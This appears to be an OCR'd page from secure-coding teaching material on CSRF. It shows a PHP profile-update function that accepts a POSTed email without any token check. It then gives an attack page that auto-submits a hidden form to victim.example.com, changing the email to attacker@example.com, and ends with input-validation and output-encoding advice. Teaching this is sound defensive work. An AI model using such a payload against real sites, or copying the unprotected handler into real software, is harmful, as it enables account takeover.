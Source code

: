 ```php
// and update the information

update_profile();

function update_profile {
// read in the data from $POST and send an update
// to the database
SendUpdateToDatabase($_SESSION['username'], $_POST['email']);
[...]
echo "Your profile has been successfully updated.";
}
```


## CSRF (3)
```html
< script >

function SendAttack () {
	form.email = "attacker@example.com";
	// send to profile.php
	form.submit();
}

< /script >

<BODY onload="javascript:SendAttack();">

<form action="http://victim.example.com/profile.php" id="form" method="post">
<input type="hidden" name="firstname" value="Funny">
<input type="hidden" name="lastname" value="Joke">
<br/>
<input type="hidden" name="email">
</form>
```


## Secure Coding Practices
* User Input Validation: Consider all potentially
relevant properties, including length, type,
the range of acceptable values, and syntax
* Output Encoding: Check which input data will
be used in a dynamically generated web page that
is going to be displayed to a user
Parts of the same generated document may require
different encodings (i.e. JavaScript sections,
element attributes) and may contain malicious code.
There are many security encoding libraries that
can be utilized through the various web
application frameworks. All encoding must be
done on a trusted system
